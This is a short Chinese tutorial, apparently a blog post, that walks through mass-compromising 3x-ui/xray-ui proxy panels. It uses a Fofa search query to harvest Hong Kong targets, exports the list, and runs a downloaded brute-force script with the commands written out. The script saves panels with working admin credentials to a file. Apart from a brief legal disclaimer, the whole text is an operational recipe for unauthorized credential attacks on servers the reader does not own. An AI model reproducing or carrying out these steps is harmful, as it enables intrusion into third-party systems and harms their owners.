




:disclaimer

:::warning
本文仅供安全研究和学习交流使用，请勿用于任何非法用途。未经授权扫描或攻击他人系统属于违法行为，后果自负。
:::

## 操作步骤

### 1. Fofa 搜索目标

前往 [Fofa](https://fofa.info) 搜索以下语法：

```
app="3x-ui" && region="HK"
```


### 2. 执行搜索

按下回车键执行搜索，等待结果加载完成。

### 3. 导出数据

点击导出按钮，选择需要的数据范围。



### 4. 选择导出数量

根据需求选择适量的数据进行导出。



### 5. 完成导出

点击导出按钮后，系统将生成并下载数据文件。



### 6. 运行爆棚脚本

打开 [xray-ui-Blasting](https://github.com/lbr32767/xray-ui-Blasting/releases/) 仓库，下载脚本。
::github{repo="lbr32767/xray-ui-Blasting"}
使用方式：
1. python
```
pip install requests tqdm
python xray-ui-Blasting.py -f <data_file>
```
2. exe
```
xray-ui-Blasting.exe -f <data_file>
```
最终会输出密码 账号为admin的面板地址到success.txt文件中。